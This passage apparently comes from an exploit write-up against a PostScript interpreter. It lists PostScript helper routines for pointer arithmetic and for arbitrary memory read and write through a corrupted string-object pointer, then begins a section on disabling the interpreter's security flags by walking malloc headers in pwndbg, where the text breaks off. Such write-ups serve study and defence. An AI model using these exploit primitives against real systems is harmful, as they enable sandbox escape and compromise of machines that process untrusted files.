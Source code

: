- `/ptradd`: takes a string variable in which its value is a pointer (say pointer A) and increments A by an amount

```postscript
/ptradd {
    /_inc exch def
    /_ptr exch def
    /_new 8 string def
    0 1 7 {
        /_i exch def
        /_b _ptr _i get _inc add def
        /_inc _b -8 bitshift def
        _new _i _b 255 and put
    } for
    _new
} bind def
```

- `/arbrd`: overwrites the pointer of `STROBJ` by writing to `STRPTR`, and then reads what `STROBJ` is pointing at by accessing it from `OBJARR`

```postscript
/arbrd {
    /_buf exch def
    /_adr exch def
    STRPTR 0 _adr 0 8 copystr
    _buf 0 OBJARR 0 get 0 _buf length copystr
} bind def
```

- `/arbwr`: does the same thing as arbrd, but writes to what `STROBJ` is pointing at instead of reading it

```postscript
/arbwr {
    /_buf exch def
    /_adr exch def
    STRPTR 0 _adr 0 8 copystr
    OBJARR 0 get 0 _buf 0 _buf length copystr
} bind def
```

#### Disabling the security flags

Now our goal is to locate the security flags. We do this by traversing the malloc headers, which form a doubly linked list. This is easily done with the `plist` command in pwndbg:

